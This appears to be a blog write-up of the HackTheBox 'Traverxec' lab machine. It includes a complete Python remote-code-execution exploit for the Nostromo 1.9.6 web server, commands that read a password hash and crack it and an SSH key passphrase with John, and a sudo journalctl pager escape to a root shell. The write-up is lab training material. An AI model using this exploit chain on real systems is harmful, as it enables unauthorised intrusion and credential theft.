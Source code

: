 ```yaml
---
title: HackTheBox Traverxec
author: Marius Kimmina
date: 2020-04-11 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [BSD]
published: true
---
```


# 0x0 Introduction
Yet another HTB box and again one of the easier ones. This time we had to exploit a vulnerable nostromo webserver version for command execution and then escalate privileges from there.
![image](/images/traverxec_htb_info.png "Traverxec Logo")

# 0x1 Getting a foothold

Starting of as usual with a nmap scan I got the following result:

```
# Nmap 7.80 scan initiated Mon Feb 10 08:20:59 2020 as: nmap -sV -sC -oA nmap/nmap 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.0061s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 10 08:21:11 2020 -- 1 IP address (1 host up) scanned in 12.31 seconds
```

I had never heard of nostromo before but a quick google search told me that it's an open source webserver that is common on BSD and is also called nhttpd.
When I searched for the version number I immediately found an RCE vulnerability and a python script to exploit it.

```py
#!/usr/bin/env python

import socket
import argparse

parser = argparse.ArgumentParser(description='RCE in Nostromo web server through 1.9.6 due to path traversal.')
parser.add_argument('host',help='domain/IP of the Nostromo web server')
parser.add_argument('port',help='port number',type=int)
parser.add_argument('cmd',help='command to execute, default is id',default='id',nargs='?')
args = parser.parse_args()

def recv(s):
	r=''
	try:
		while True:
			t=s.recv(1024)
			if len(t)==0:
				break
			r+=t
	except:
		pass
	return r
def exploit(host,port,cmd):
	s=socket.socket()
	s.settimeout(1)
	s.connect((host,int(port)))
	payload="""POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1""".format(cmd)
	s.send(payload)
	r=recv(s)
	r=r[r.index('\r\n\r\n')+4:]
	print r

exploit(args.host,args.port,args.cmd)
```

The vulnerability here is a path traversal that allows us to reach /bin/sh
Which is also very simple to use

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "whoami"

www-data
```


# 0x2 getting the user.txt

As www-data I usually first want to look in our own directory because that's were we are most likely to have access. so thats /var/nostromo in this case.
In there I found a conf directory and was able to extract a hash from the .htpasswd file inside.

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo$ python2 exp.py 10.10.10.165 80 "cat /var/nostromo/conf/.htpasswd"

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Copied the credentials over to my maschine and asked my friend john if he could tell me something about them

```
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ cat pwfile
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
mindslave@kalibox:~/hackthebox/Traverxec/nostromo/creds$ john --wordlist=/usr/share/wordlists/rockyou.txt pwfile
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:24 DONE (2020-02-10 09:50) 0.04027g/s 426034p/s 426034c/s 426034C/s NuiMeanPoon..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have password "Nowonly4me". First thing I tested with this password was ssh of course, but sadly david did not use that as his ssh password.
Going further throught the nhttpd.conf I found the following:

```
# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd
```

This stells us that we can use the password to authenticate at the Website, the question left to be answered is where on the Website.
looking at the Nostromo documentation I found that users get a path on the Webserver, here the relevant part of the docs:

```
HOMEDIRS
To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are stored, normally /home. To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:
http://www.nazgul.ch/~hacki/
The content of the home directory is handled exactly the same way as a directory in your document root. If some users don't want that their home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403 Forbidden response. Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will need to authenticate.
You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public option.
```

so the /~david/ path did exists but didn't show us anything interesting, we need some kind of file name which we could find in /home/david/public_www/ the fiel we need is called protected-file-area (I knew the public_www existed because it said so in the nostromo config file)

The next step was to go to http://10.10.10.165/~/david/protected-file-area, there we could use the 'nowonly4me' password and we got his ssh-key which we could then again decrypt with john

```
$ python3 /usr/share/john/ssh2john.py id_rsa > johnfile
```

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-02-10 10:50) 0.3597g/s 5158Kp/s 5158Kc/s 5158KC/sa6_123..*7¡Vamos!
Session completed
```

log in with ssh
```
$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Mon Feb 10 04:51:07 2020 from 10.10.14.2
david@traverxec:~$
```


# 0x3 getting the root.txt

In davids "bin" directoy I found an interesting script

```bash
$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Here I only care about the last line "/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat" which means we can execute this journalctl command as root and if we do that, without piping it into cat, we invoke the default pager, most likely "less", as root. And inside of less we can execute "!/bin/sh" that will run as root and thus give us a root shell.

```
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service;
-- Logs begin at Tue 2020-02-11 01:12:26 EST, end at Tue 2020-02-11 02:02:57 EST. --
Feb 11 01:12:29 traverxec nhttpd[422]: started
Feb 11 01:12:29 traverxec nhttpd[422]: max. file descriptors = 1040 (cur) / 1040 (max)
Feb 11 01:12:29 traverxec systemd[1]: Started nostromo nhttpd server.
Feb 11 02:01:17 traverxec sudo[1626]: pam_unix(sudo:auth): authentication failure; logname= uid
Feb 11 02:01:53 traverxec sudo[1626]: www-data : command not allowed ; TTY=pts/1 ; PWD=/usr/bin
!/bin/sh
# whoami
root
```
